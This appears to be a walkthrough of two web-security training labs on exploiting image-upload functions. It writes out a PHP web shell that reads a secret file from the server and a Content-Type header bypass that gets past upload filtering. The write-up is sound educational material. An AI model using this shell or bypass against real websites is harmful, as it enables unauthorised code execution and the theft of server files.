 ## Lab: Remote code execution via web shell upload
This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem. To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner. You can log in to your own account using the following credentials: `wiener:peter`

### Solve:
1. go to `my account`, login
2. try to upload a normal file, and open the file in new tab, theres the slug for the upload directory `/files/avatars/[filename]`
3. make a php file with the content `<?php echo file_get_contents('/home/carlos/secret'); ?>`
4. upload the file, then access `/files/avatars/[filename].php`
5. it will show the content of the secret key, in this case `M8jTL5gn9sFv4uVgjP8eudxU3PDulHEq`
6. submit the code
7. the lab is solved

## Lab: Web shell upload via Content-Type restriction bypass
This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this. To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner. You can log in to your own account using the following credentials: `wiener:peter`

### Solve:
1. go to `my account`, login
2. try to upload a normal file, and open the file in new tab, theres the slug for the upload directory `/files/avatars/[filename]`
3. make a php file with the content `<?php echo file_get_contents('/home/carlos/secret'); ?>`
4. try to upload the file, there's an error pops `Sorry, file type text/php is not allowed Only image/jpeg and image/png are allowed Sorry`
5. try to re-upload but capture the request in burp
6. there is `Content-Type: text/php` change to `Content-Type: image/jpeg`
7. forward the request, its uploaded
8. then access `/files/avatars/[filename].php`
9. it will show the content of the secret key, in this case `M8jTL5gn9sFv4uVgjP8eudxU3PDulHEq`
10. submit the code
11. the lab is solved